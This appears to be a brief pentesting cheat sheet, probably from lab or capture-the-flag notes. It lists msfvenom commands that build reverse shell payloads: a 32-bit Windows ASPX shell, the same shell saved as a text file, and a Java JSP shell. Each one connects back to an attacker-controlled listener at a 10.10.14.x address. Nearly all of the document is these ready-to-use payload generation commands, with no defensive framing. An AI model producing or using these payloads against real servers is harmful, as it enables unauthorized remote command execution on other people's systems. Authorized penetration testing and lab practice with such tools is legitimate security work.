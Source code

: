 ## MSFVENOM payload generation commands

### msfvenom 32 bit ASPX reverse shell

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.19 LPORT=5555 --platform windows -a x86 -e generic/none -f aspx -o go.aspx
```

If we want output in txt format, then use below command

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.19 LPORT=5555 --platform windows -a x86 -e generic/none -f aspx -o go.txt
```

Java JSP payload
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 -f raw > exp.jsp
```




